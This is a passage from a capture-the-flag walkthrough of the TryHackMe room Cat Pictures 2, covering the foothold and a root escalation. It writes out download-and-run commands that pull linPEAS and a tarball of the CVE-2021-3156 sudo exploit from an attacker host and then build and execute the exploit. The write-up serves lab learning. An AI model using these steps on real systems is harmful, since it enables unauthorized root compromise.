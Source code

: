 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691493256582/5afae235-62d0-4455-bfd2-e4d9776bb73d.png align="center")

### Step 4: Foothold

After clicking the *Run Ansible Playbook* button from the Olive Tin application and waiting a few seconds, we get a shell and our second flag!

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691493275285/ebd55d3f-6e93-433e-87a7-3b1673057b8b.png align="center")

From here we're going to begin our privilege escalation. We'll start by getting linPEAS on the box.

From the attack box (where `linPEAS` is saved):

```bash
python3 -m http.server 8000
```

From victim:

```bash
wget http://<ATTACKER_IP>:8000/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

### Step 5: Privesc and Root

Luckily for us, there's a GitHub repository we can use to exploit this.

From the attack box (where the exploit is saved):

```bash
git clone https://github.com/blasty/CVE-2021-3156
tar -cvf exploit.tar CVE-2021-3156
python3 -m http.server 8000
```

From victim:

```bash
wget http://10.13.28.215:8000/exploit.tar
tar xopf exploit.tar
cd CVE-2021-3156
make
./sudo-hax-me-a-sandwich 0
```

We have root and our last flag!

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691493363765/e35c3ff3-b1dc-4f68-ad02-81ec9164223d.jpeg align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691493369043/8f1682e1-a506-47e3-bc5e-4cacb092f279.png align="center")

I hope you enjoyed this walkthrough of [Cat Pictures 2](https://tryhackme.com/room/catpictures2) by [gamercat](https://tryhackme.com/p/gamercat). Happy hacking.